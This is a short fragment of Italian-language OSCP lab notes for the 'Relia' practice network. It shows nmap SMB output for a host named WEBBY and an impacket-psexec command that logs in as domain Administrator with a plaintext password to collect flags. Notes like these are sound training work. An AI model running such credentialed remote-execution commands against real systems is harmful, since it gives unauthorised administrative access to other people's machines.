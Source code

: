 ```bash
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: WEBBY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:9e:4e:30 (VMware)
|_clock-skew: mean: 3s, deviation: 0s, median: 3s
```

Accesso smb con jim e dmzadmin.

Visitando la pagina 80:

![](/OSCP/Immagini_OSCP/Relia/30_port_80.png)
Una volta trovate le credenziali del Domain Admin sulla macchina 21, utilizzo questo comando per accedere e collezionare tutte le flag presenti su questa macchina:

```bash
impacket-psexec relia.com/Administrator:"vau\!XCKjNQBv2$"@172.16.165.30
```
